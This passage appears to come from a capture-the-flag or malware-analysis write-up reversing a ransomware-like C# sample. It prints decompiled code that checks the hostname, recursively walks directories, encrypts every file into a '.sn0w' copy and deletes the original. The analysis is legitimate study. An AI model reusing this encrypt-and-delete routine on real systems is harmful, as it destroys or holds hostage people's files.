 We can see here that the program checks to see if the function `WillItSnow()` returns true.  If it doesn't, then the program exits. It seems that all `WillItSnow()` does is check to see if the user's host name is equal to the one listed in the excecutable's resources.

```cpp
public static bool WillItSnow()
{
	return Dns.GetHostName() == Resources.host;
}
```

Since our hostname isn't what is listed in the program, we know that this program won't work on our machine, as it will just instantly return due to a mismatch. But let's keep going.  Next the program just checks to see if the user didn't supply any arguments, and if they didn't, then return.  The last bit here is where it gets juicy.  The function `SnowMachine.MakeItSnow(args[i]);` is called.

```cpp
public static void MakeItSnow(string dir)
{
	string[] array = Directory.GetFiles(dir);
	for (int i = 0; i < array.Length; i++)
	{
		SnowMachine.SmallSnowcone(array[i]);
	}
	array = Directory.GetDirectories(dir);
	for (int i = 0; i < array.Length; i++)
	{
		SnowMachine.MakeItSnow(array[i]);
	}
}
```

Now what does this function do? Well, it takes a directory, and then recursivley traverses that directory, calling the function `SmallSnowcone()` on every single file it encounters. Knowing this is malware, we can probably already take a guess as to what it might be doing to those files, but let's keep digging.

```cpp
private static void SmallSnowcone(string path)
{
	if (path.EndsWith(".sn0w"))
	{
		return;
	}
	using (FileStream fileStream = new FileStream(path, FileMode.Open, FileAccess.Read))
	{
		using (FileStream fileStream2 = new FileStream(path + ".sn0w", FileMode.Create, FileAccess.Write))
		{
			byte[] array = new byte[fileStream.Length];
			byte[] array2 = new byte[fileStream.Length];
			fileStream.Read(array, 0, (int)fileStream.Length);
			string text = SnowMachine.PickSomeFlavoring();
			SnowMachine.SaltBaeDatFlavorIn(array, array2, text);
			byte[] array3 = SnowMachine.OTP(Encoding.ASCII.GetBytes(text));
			for (int i = 0; i < 32; i++)
			{
				fileStream2.WriteByte(Convert.ToByte((int)(array3[i] | 128)));
			}
			fileStream2.Write(array2, 0, array2.Length);
		}
	}
	File.Delete(path);
}
```
